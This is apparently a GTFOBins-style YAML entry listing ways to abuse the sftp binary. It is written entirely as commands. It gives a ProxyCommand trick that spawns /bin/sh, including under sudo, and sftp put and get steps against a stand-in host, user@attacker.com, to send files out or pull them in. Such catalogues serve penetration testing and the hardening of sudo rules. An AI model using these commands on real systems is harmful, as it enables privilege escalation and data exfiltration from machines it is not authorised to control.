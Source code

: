 ```yaml
---
functions:
  shell:
    - code: |
        sftp -o ProxyCommand=';/bin/sh 0<&2 1>&2' x
  file-upload:
    - description: Send local file to a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        put file_to_send file_to_save
  file-download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        get file_to_get file_to_save
  sudo:
    - code: |
        sftp -o ProxyCommand=';/bin/sh 0<&2 1>&2' x
---
```

